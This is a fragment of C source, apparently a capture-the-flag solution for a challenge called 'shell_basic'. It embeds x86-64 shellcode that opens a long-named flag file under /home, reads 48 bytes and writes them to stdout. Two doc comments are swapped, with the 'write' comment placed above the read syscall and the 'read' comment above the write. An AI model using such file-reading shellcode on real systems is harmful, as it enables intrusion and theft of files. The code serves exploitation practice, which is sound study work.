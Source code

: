 ```c
	 */
	"push 0x0 # NULL\n"
	"mov rax, 0x676e6f6f6f6f6f6f # oooooong\n"
	"push rax\n"
	"mov rax, 0x6c5f73695f656d61 # ame_is_l\n"
	"push rax\n"
	"mov rax, 0x6e5f67616c662f63 # c/flag_n\n"
	"push rax\n"
	"mov rax, 0x697361625f6c6c65 # ell_basi\n"
	"push rax\n"
	"mov rax, 0x68732f656d6f682f # /home/sh\n"
	"push rax\n"
	"mov rdi, rsp    # rdi = '/home/shell_basic/flag_name_is_loooooong'\n"
	"xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
	"xor rdx, rdx    # rdx = 0\n"
	"mov rax, 2      # rax = 2 ; syscall_open\n"
	"syscall         # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
	"\n"
	/**
	 * function: write(1, buf, 0x30);
	 *
	 * param:
	 * @rax: 1
	 * @syscall: sys_write
	 * @rdi: unsigned int fd
	 * @rsi: const char *buf
	 * @rdx: size_t count
	 */
	"mov rdi, rax      # rdi = fd\n"
	"mov rsi, rsp\n"
	"sub rsi, 0x30     # rsi = rsp-0x30 ; buf\n"
	"mov rdx, 0x30     # rdx = 0x30     ; len\n"
	"mov rax, 0x0      # rax = 0        ; syscall_read\n"
	"syscall           # read(fd, buf, 0x30)\n"
	"\n"
	/**
	 * function: read(fd, buf, 0x30)
	 *
	 * param:
	 * @rax: 0
	 * @syscall: sys_read
	 * @rdi: unsigned int fd
	 * @rsi: char *buf
	 * @rdx: size_t count
	 */
	"mov rdi, 0x1      # rdi = 1 ; fd = stdout\n"
	"mov rax, 0x1      # rax = 1 ; syscall_write\n"
	"syscall           # write(fd, buf, 0x30)\n"
	"\n"

	/**
	 * function: exit(0)
	 *
	 * param:
	 * @rax: 0x3c (decimal: 60)
	 * @syscall: sys_exit
	 * @rdi: int error_code
	 */
	"xor rdi, rdi   # rdi = 0\n"
	"mov rax, 0x3c	# rax = sys_exit\n"
	"syscall        # exit(0)"
);

```